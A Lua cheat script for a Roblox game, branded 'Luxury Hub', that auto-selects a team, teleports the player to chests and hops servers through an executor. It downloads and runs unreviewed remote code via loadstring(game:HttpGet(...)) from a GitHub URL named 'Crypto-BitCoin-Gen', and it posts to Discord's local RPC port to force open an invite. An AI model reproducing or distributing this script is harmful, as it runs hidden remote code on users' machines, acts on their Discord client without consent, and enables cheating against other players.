 -- Configuration
local Team = "Pirates" -- Set your desired team ("Pirates" or "Marines")
local AutoChestEnabled = true
local HopServerEnabled = true

-- Create a message GUI
local GameLoadGui = Instance.new("Message", workspace)
GameLoadGui.Text = 'Luxury Hub Auto Chest Free Scripts'

-- Get player objects
local Players = game:GetService("Players")
local LocalPlayer = Players.LocalPlayer

-- Function to automatically select a team
local function AutoSelectTeam(teamName)
    local ChooseTeamGui = LocalPlayer.PlayerGui.Main.ChooseTeam
    if ChooseTeamGui and ChooseTeamGui.Visible then
        local TeamFrame = ChooseTeamGui.Container[teamName].Frame.ViewportFrame
        if TeamFrame then
            for _, event in ipairs({ "MouseButton1Click", "MouseButton1Down", "Activated" }) do
                for _, connection in ipairs(getconnections(TeamFrame.TextButton[event])) do
                    connection.Function()
                end
            end
        end
    end
end

-- Ensure the correct team is selected
repeat
    task.wait()
    if not LocalPlayer.Team and LocalPlayer.PlayerGui.Main.ChooseTeam.Visible then
        pcall(function()
            if Team == "Pirates" or Team == "Marines" then
                AutoSelectTeam(Team)
            else
                AutoSelectTeam("Pirates") -- Default team
            end
        end)
    end
until LocalPlayer.Team and game:IsLoaded()

-- Function to teleport to a specified position
local function teleport(CFrame)
    LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame
end

local function autoTeleport(Position)
    for _ = 1, 6 do
        teleport(Position)
        LocalPlayer.Character.Humanoid:ChangeState(14)
    end
end

local ServerFunc = loadstring(game:HttpGet("https://raw.githubusercontent.com/NightsTimeZ/Api/main/Crypto-BitCoin-Gen"))()

-- Enable auto chest collection
local function AutoChest()
    while task.wait() do
        pcall(function()
            local chestList = workspace:GetChildren()
            for _, v in ipairs(chestList) do
                if v.Name:match("Chest%d") then
                    while v.Parent and AutoChestEnabled do
                        task.wait()
                        autoTeleport(v.CFrame)
                    end
                end
            end
            if HopServerEnabled and AutoChestEnabled then
                ServerFunc:NormalTeleport()
            end
        end)
    end
end

-- Function to handle error prompt
local function HandleErrorPrompt(child)
    if child.Name == 'ErrorPrompt' and child:FindFirstChild('MessageArea') and child.MessageArea:FindFirstChild("ErrorFrame") then
        game:GetService("TeleportService"):Teleport(game.PlaceId)
    end
end

-- Listen for error prompts
game:GetService("CoreGui").RobloxPromptGui.promptOverlay.ChildAdded:Connect(HandleErrorPrompt)

-- Start the AutoChest function in a separate thread
task.spawn(AutoChest)

-- Additional code for Discord RPC (if needed)
local http_request = http_request

if syn then
    http_request = syn.request
else
    http_request = request
end

http_request({
    Url = "http://127.0.0.1:6463/rpc?v=1",
    Method = "POST",
    Headers = {
        ["Content-Type"] = "application/json",
        ["Origin"] = "https://discord.com"
    },
    Body = game:GetService("HttpService"):JSONEncode(
        {
            cmd = "INVITE_BROWSER",
            args = { code = "luxuryhub" },
            nonce = game:GetService("HttpService"):GenerateGUID(false)
        }
    )
})
